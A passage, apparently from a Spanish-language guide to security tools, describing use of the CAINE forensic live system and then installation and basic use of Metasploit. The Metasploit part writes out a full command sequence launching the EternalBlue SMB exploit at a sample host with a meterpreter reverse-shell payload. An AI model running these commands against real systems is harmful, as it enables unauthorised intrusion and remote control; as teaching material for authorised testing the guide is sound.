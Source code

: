**Instalación básica**:
1. Descargar la imagen ISO desde la página oficial
2. Crear un medio de arranque (USB o DVD)
3. Arrancar el sistema desde el medio creado

**Uso básico**:
1. Iniciar CAINE en modo live
2. Utilizar el asistente de adquisición forense para crear imágenes de discos
3. Emplear las herramientas incluidas según las necesidades de la investigación
4. Documentar hallazgos utilizando las plantillas proporcionadas

**Consideraciones**:
- Diseñado para no alterar la evidencia original (modo de solo lectura)
- Incluye documentación legal y plantillas para informes forenses
- Actualizado periódicamente con nuevas herramientas y capacidades

## Pruebas de Penetración

### Metasploit Framework

**Descripción**: Metasploit es uno de los frameworks de pruebas de penetración más utilizados, que proporciona una plataforma para desarrollar, probar y ejecutar exploits.

**Casos de uso**:
- Pruebas de penetración de redes y sistemas
- Validación de vulnerabilidades
- Simulación de ataques para evaluar defensas

**Instalación básica**:
```bash
# En sistemas basados en Debian/Ubuntu
sudo apt update
sudo apt install metasploit-framework

# Inicialización
sudo msfdb init
```

**Uso básico**:
```bash
# Iniciar la consola de Metasploit
msfconsole

# Buscar exploits
search cve:2021

# Usar un exploit específico
use exploit/windows/smb/ms17_010_eternalblue

# Configurar opciones
set RHOSTS 192.168.1.100
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.200

# Ejecutar
exploit
```
